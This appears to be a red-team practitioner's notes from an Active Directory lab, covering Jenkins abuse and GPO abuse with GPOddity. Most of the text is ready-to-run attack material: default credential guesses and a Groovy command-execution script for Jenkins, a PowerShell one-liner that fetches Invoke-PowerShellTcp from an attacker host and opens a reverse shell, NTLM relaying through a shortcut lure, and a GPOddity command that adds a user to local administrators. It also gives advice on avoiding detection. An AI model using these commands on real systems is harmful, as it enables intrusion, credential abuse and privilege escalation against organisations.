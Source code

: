 Features abuse are awesome as there are seldom patches for them and
they are not the focus of security teams!

 One of my favourite features abuse is targeting enterprise applications
which are not built keeping security in mind.

On Windows, many enterprise applications need either Administrative
privileges or SYSTEM privileges making them a great avenue for privilege
escalation.

### Jenkins
If you you see a user like `builduser` in the user list try the following credentials
```
    builduser: <null>
    builduser:builduser
    builduser:resudilub
    builduser:resudilub!


```

With Jenkins Admin creds you can go to `/script` and run the following
```groovy
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

**No Admin creds, but can add or edit build steps in the build configuration**.
	1. Project0 (or any)
	2. Configure
	3. Add Build Step
		1. Execute Windows Batch Command

Add a "Execute Windows Batch command" build step and catch a reverse shell
```powershell
powershell.exe iex (iwr -UseBasicParsing http://172.16.100.48/Invoke-PowerShellTcp.ps1);power -Reverse -IPAddress 172.16.100.48 -Port 443
```

1. Create a local firewall rule to allow the hosting of a webserver
	1. Or turn it off
2. Host the web server using HFS or python

**In real redteam engagements don't drop a reverse shell or even the stage 1 payload. Start off with a stage zero payload that beacons and quietly enumerates to see if the target is heavily protected**


> [!NOTE] **IMPORTANT**
> `whoami` and `hostname` is very noisy
> use `$env:Username` and `ls env:` instead

One way to protect an enterprise application is to expose it to the internet via a Azure Proxy, make everyone authenticate using Entra ID and use a whitelist for people allowed to use it

### GPO Abuse - GPOddity
A GPO with overly permissive ACL can be abused for multiple attacks.

GPOddity combines `NTLM` relaying and modification of Group Policy
Container. By relaying credentials of a user who has `WriteDACL` on GPO, we can
modify the path (`gPCFileSysPath`) of the group policy template (default
is `SYSVOL`).

This enables loading of a malicious template from a location that we
control.


![[Pasted image 20250505062951.png]]

Open WSL Ubuntu shell and start NTLM relay (relay) - WSLToTh3Rescue!
```bash
sudo ntlmrelayx.py -t ldaps://172.16.2.1 -wh 172.16.100.48 --http-port '80,8080' -i --no-smb-server
```

Create new shortcut with this command and place in writable share
```bash
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Command "Invoke WebRequest -Uri 'http://172.16.100.48' -UseDefaultCredentials"

xcopy .\student548.lnk \\dcorp-ci\AI
```

After relay connect to shell
```bash
nc 127.0.0.1 11000
```

Delegate `WriteDACL` permissions to the group policy the relayed user can control
```bash
write_gpo_dacl student548 {0BF8D01C-1F62-4BDC-958C-57140B67D147}
```

**OR** we can add a computer and use those credentials
```bash
add_computer stdx-gpattack Secretpass@123

write_gpo_dacl stdx-gpattack$ {0BF8D01C-1F62-4BDC-958C-57140B67D147}
```

Run GPOddity to edit Group Policy
```bash
sudo python3 gpoddity.py --gpo-id '0BF8D01C-1F62-4BDC-958C-57140B67D147' --domain 'dollarcorp.moneycorp.local' --username 'studentx' --password 'gG38Ngqym2DpitXuGrsJ' --command 'net localgroup administrators studentx
/add' --rogue-smbserver-ip '172.16.100.x' --rogue-smbserver-share 'std548-gp' -
-dc-ip '172.16.2.1' --smb-mode none
```

Move group policy files from GPOddity to new share folder
```bash
mkdir /mnt/c/AD/Tools/std548-gp

cp -r /mnt/c/AD/Tools/GPOddity/GPT_Out/* /mnt/c/AD/Tools/std548-gp
```

From Admin CMD create a the file share called `std548-gp` and grant full perms to everyone
```powershell
net share stdx-gp=C:\AD\Tools\stdx-gp /grant:Everyone,Full

icacls "C:\AD\Tools\stdx-gp" /grant Everyone:F /T
```

Check `gpcfilesyspath`
```powershell
Get-DomainGPO  -Identity "DevOps Policy"
```

Wait for Group Policy to refresh and test new privileges
```powershell
winrs -r:dcorp-ci cmd /c "set computername && set username"
```